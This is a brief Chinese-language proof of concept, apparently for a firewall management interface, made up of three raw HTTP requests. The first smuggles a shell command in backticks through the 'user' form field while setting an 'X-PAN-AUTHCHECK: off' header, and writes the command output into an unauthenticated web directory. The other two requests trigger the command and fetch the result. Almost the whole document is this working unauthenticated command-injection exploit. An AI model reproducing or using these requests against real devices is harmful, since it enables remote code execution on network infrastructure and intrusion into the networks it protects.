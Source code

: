 先构造请求得到PHPSESSIONID
```
POST /php/utils/createRemoteAppwebSession.php/pocs.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded


user=`echo $(uname -a) > /var/appweb/htdocs/unauth/pocs.php`&userRole=superuser&remoteHost=&vsys=vsys1
```
返回数据中有
@start@PHPSESSID=XXXX@end@
XXXX就是需要的东西
接着构造执行代码
```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=XXXX;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```
返回里还有下一个id YYYY
接着读取执行结果
```
GET /unauth/pocs.php HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=YYYY;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```

POC描述完了
